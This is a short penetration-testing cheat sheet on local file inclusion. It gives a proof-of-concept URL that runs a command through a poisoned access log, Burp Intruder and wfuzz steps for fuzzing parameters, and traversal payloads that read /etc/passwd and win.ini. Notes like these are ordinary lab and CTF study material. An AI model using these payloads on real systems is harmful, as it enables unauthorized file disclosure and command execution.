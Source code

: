 # File Inclusion Vulnerabilities

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" %}

## Local File Inclusion (LFI)

### PoC

```
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

### Bruteforcing LFI via directory

* Obtain a GET request in burp
* Send to Intruder
* Attack type set to Sniper

Example on where to place payload:

```
GET /admin/?|PAYLOADHERE|= HTTP/2
```

* Click the add button on the right side and make sure that the payload character is between the field where the two pipes are
* Go to payloads > Load > SecLists > Discovery > Web-Content > raft-small-words.txt
* Click start attack
* Make sure to order by the largest length as that will be what you need to focus on

### Fuzzing

* This section is for if you found something from bruteforcing for LFI

```
GET /admin/?debug=|fasfoaj|
```

* Place the payload characters in between the pipes
  * Remember, the pipes are the payload characters in burp, you need to manually add this
* Go to payloads > SecLists > LFI > LFI-jhaddix.txt
* Select start attack and organize by largest length again

Example of LFI:

```
http://10.10.10.1/admin/?debug=../../../../../windows/win.ini

http://10.10.10.1/admin/?debug=../../../../../etc/passwd
```

Wfuzz:

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hh <common number> <URL>
```





